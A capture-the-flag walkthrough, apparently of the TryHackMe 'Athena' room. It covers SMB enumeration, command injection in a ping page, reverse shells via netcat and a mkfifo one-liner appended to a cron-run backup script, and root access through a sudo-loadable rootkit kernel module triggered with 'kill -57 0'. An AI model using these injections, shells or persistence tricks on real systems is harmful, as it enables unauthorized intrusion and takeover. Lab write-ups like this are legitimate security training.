 # Athena :
```sh
export IP= M-ip
```
# Enumeration: 
```sh
nmap -sV -sC -A  $IP
```

```sh
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-05 00:25 CEST
Nmap scan report for 10.10.155.144
Host is up (0.14s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3b:c8:f8:13:e0:cb:42:60:0d:f6:4c:dc:55:d8:3b:ed (RSA)
|   256 1f:42:e1:c3:a5:17:2a:38:69:3e:9b:73:6d:cd:56:33 (ECDSA)
|_  256 7a:67:59:8d:37:c5:67:29:e8:53:e8:1e:df:b0:c7:1e (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Athena - Gods of olympus
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: -33s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-05-04T22:25:31
|_  start_date: N/A
|_nbstat: NetBIOS name: ROUTERPANEL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.53 seconds
```
Now, we have some services that are running in the machine.
# Enumerating the services: 

![Screenshot_22](https://github.com/a-9-k/Rooms-Write_Up-THM/assets/53786047/7c256c8a-fad5-4434-867a-f278095acd9d)

Nothing in Here.

I used a tool called enum4linux for the smb  
```sh
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\ubuntu (Local User)
S-1-22-1-1001 Unix User\athena (Local User)

Sharename       Type      Comment
	---------       ----      -------
	public          Disk      
	IPC$            IPC       IPC Service (Samba 4.15.13-Ubuntu)
 
 [+] Attempting to map shares on 10.10.155.144

//10.10.155.144/public	Mapping: OK Listing: OK Writing: N/A
```

By this information i was able to use smbclient to enter the Public share

```sh
smbclient  //10.10.155.144/public
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Apr 17 02:54:43 2023
  ..                                  D        0  Mon Apr 17 02:54:05 2023
  msg_for_administrator.txt           N      253  Sun Apr 16 20:59:44 2023
```
So we found text file from the administrator exposing the  dir /myrouterpanel 

```sh
cat msg_for_administrator.txt 

Dear Administrator,

I would like to inform you that a new Ping system is being developed and I left the corresponding application in a specific path, which can be accessed through the following address: /myrouterpanel

Yours sincerely,

Athena
Intern
```
Let’s visit the directory /myrouterpanel.

![Screenshot_23](https://github.com/a-9-k/Rooms-Write_Up-THM/assets/53786047/d010c5af-2dfc-48f3-979d-a6788daab527)

by seeing this ping tool it obvious that we have a command injection vuln
$(ls) !ls ;ls .....
I managed to get this injection to get me a reverse shell 

# Initial Access:

```sh
127.0.0.1 -c `nc 10.8.46.178 9001 -e /bin/sh`
nc -lvnp 9001

listening on [any] 9001 ...
connect to [10.8.46.178] from (UNKNOWN) [10.10.155.144] 51460
ls
index.html
ping.php
style.css
under-construction.html

```
# stabilize the reverse shell :
```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
Press CTRL + Z to background process and get back to your host machine
stty raw -echo; fg
export TERM=xterm
```
Here I used linpeas.sh to enumerate the machine.
```sh
my machine : python3 -m http.server 8000
reverse shell : wget http://vpnIP/linpeas.sh -O linpeas.sh
```
I found this file /usr/share/backup/backup.sh with athena as the owner, so i add revshell to the file bc it has crontab running the sh file.

```sh

-rwxr-xr-x   1 www-data athena     258 May 28  2023 backup.sh

www-data@routerpanel:/usr/share/backup$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.46.178 4444 >/tmp/f'  >> backup.sh
www-data@routerpanel:/usr/share/backup$ cat backup.sh 
#!/bin/bash

backup_dir_zip=~/backup

mkdir -p "$backup_dir_zip"

cp -r /home/athena/notes/* "$backup_dir_zip"

zip -r "$backup_dir_zip/notes_backup.zip" "$backup_dir_zip"

rm /home/athena/backup/*.txt
rm /home/athena/backup/*.sh

echo "Backup completed..."
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.46.178 4444 >/tmp/f
-----------------------------------------------------------------------------------------------------------------------------------------------------
in my machine
nc -lvnp 4444             
listening on [any] 4444 ...
connect to [10.8.46.178] from (UNKNOWN) [10.10.155.144] 60748
/bin/sh: 0: can't access tty; job control turned off
$ id     
uid=1001(athena) gid=1001(athena) groups=1001(athena)
$ cat user.txt
857c4a4fbac638afb6c7ee45eb3e1a28

```
 What we can run as sudo.
```sh
athena@routerpanel:~/notes$ sudo -l
Matching Defaults entries for athena on routerpanel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User athena may run the following commands on routerpanel:
    (root) NOPASSWD: /usr/sbin/insmod /mnt/.../secret/venom.ko
```
# Privilege escalation:

 I decompile the file venom.ko , and  i used chatgpt to understand it so i found that 
```sh
 The code you've provided isn't inherently vulnerable by itself; rather, it's designed to exploit vulnerabilities or weaknesses in the Linux kernel. Let's break down potential vulnerabilities or risks associated with this code:

Kernel Code Modification: The code modifies the behavior of certain system calls by hooking into them. This kind of modification introduces a risk of instability or unintended behavior in the kernel. If the modification is not implemented correctly or conflicts with other parts of the kernel, it could lead to system crashes or security vulnerabilities.

Privilege Escalation: By intercepting the kill system call, the code grants root privileges (give_root) based on specific conditions. If an attacker can trigger these conditions, they may be able to escalate their privileges to root, gaining complete control over the system.
Process Hiding: The code includes functionality (is_invisible) to hide certain processes from being listed by system calls like getdents and getdents64. While this may be used for legitimate purposes, such as hiding sensitive processes, it can also be abused by malware to conceal its presence on the system, making it harder for security tools and administrators to detect.

Kernel Module Loading: The code is implemented as a kernel module (diamorphine_init), which means it can be loaded into the kernel dynamically. Kernel modules have elevated privileges and can interact directly with kernel internals, making them powerful tools for both legitimate and malicious purposes. However, loading unauthorized or malicious kernel modules introduces significant security risks, as they can bypass standard security mechanisms and directly manipulate the kernel.

Lack of Input Validation: The code does not appear to perform extensive input validation, particularly in functions like hacked_getdents and hacked_getdents64, where directory entries are filtered based on specific criteria. Without proper input validation, there's a risk of buffer overflows, out-of-bounds accesses, and other vulnerabilities that could be exploited by attackers to compromise the system.

```
```
# exploited
athena@routerpanel:/mnt/.../secret$ sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
athena@routerpanel:/mnt/.../secret$ kill -57 0
athena@routerpanel:/mnt/.../secret$ whoami
root
athena@routerpanel:/mnt/.../secret$ cd /root/
athena@routerpanel:/root$ ls
fsociety00.dat  root.txt
athena@routerpanel:/root$ cat root.txt 
aecd4a3497cdflag
```

